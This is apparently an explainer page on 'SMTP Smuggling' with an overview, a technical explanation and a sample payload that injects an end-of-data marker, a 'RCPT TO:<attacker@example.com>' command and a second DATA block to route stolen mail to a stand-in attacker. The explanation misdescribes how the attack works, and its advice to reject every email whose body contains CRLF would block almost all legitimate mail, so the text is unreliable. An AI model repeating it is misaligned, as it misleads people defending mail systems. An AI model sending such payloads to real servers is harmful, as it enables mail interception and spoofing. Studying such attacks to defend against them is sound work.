 # SMTP Smuggling


# 👉 Overview

---

### 👀 What ?

> SMTP Smuggling is a cyber attack method that exploits the SMTP (Simple Mail Transfer Protocol) to infiltrate, exfiltrate data, or otherwise compromise a system or network.
> 

### 🧐 Why ?

> SMTP Smuggling is an important topic because of its potential for serious damage. It can be used to bypass security measures, gain unauthorized access, and steal sensitive data. It is also a stealthy technique, making it difficult to detect and prevent.
> 

### ⛏️ How ?

> SMTP Smuggling is performed by exploiting vulnerabilities in the way SMTP servers handle data. The attacker sends specially crafted messages that can trick the server into accepting malicious content. This can be used to deliver malware, exfiltrate data, or even gain control of the server.
> 

### ⏳ When ?

> SMTP Smuggling has been known and used by cyber criminals for quite some time. It became more prevalent with the rise of complex web applications and the increasing reliance on email as a communication tool.
> 

# ⚙️ Technical Explanations

---

SMTP, or Simple Mail Transfer Protocol, is a fundamental protocol utilized for sending emails across the internet. The process involves the transmission of messages from one server to another until they eventually reach their intended destination. These transmissions, however, can be vulnerable to a cyber attack method known as SMTP Smuggling.

SMTP Smuggling is an attack strategy that exploits the way SMTP servers interpret and handle data. The attacker sends uniquely crafted messages, which can deceive the server into accepting malicious content. This tactic can be employed to deliver malware, extract data, or even gain control of the server itself. The manipulation of data interpretation can lead the server to behave in unforeseen ways, such as executing arbitrary code, accepting unauthorized messages, or unintentionally revealing sensitive information.

SMTP Smuggling has been a known method utilized by cyber criminals for some years now. Its use has grown in prevalence with the evolution of intricate web applications and the increasing dependence on email as a means of communication. Due to its stealthy nature, SMTP Smuggling can be difficult to detect and prevent, making it a significant threat to information security. Understanding the mechanics of SMTP Smuggling, its potential for damage, and how to mitigate its risks is crucial in maintaining robust cyber security practices within any organization.

As an example, let's consider an SMTP Smuggling attack that uses the `CRLF` injection vulnerability. Here, `CRLF` stands for Carriage Return Line Feed, which is a sequence of characters used to denote the end of a line of text in many protocols, including SMTP.

1. **Crafting the Message**: The attacker begins by crafting a malicious email. In the body of the email, they include a `CRLF` sequence followed by a command that the SMTP server will interpret as coming from the sender, such as `RCPT TO:<attacker@example.com>`. This makes it seem as if the sender of the email is trying to send a copy of the email to `attacker@example.com`.

```
Subject: Test email
From: victim@example.com
To: recipient@example.com
CC:
.
RCPT TO:<attacker@example.com>
DATA
Subject: Stolen data
This is the body of the stolen email.
.

```

1. **Sending the Message**: The attacker sends this email to the victim. When the victim's mail server receives the email, it sees the `RCPT TO:<attacker@example.com>` command in the body of the email, and assumes it is a valid command from the sender.
2. **Exploitation**: The server then sends a copy of the email, including all headers and the body, to `attacker@example.com`. This allows the attacker to receive a copy of any email sent to `recipient@example.com`, effectively creating a breach of privacy.
3. **Mitigation**: To protect against this vulnerability, mail servers should be configured to reject any email that contains a `CRLF` sequence in the body of the email. Additionally, all user input should be properly sanitized to ensure that no malicious commands can be injected.

Remember, this is a simplified example. Real-world attacks can be much more complex and stealthy. Always follow best practices for securing your SMTP servers to protect against such attacks.
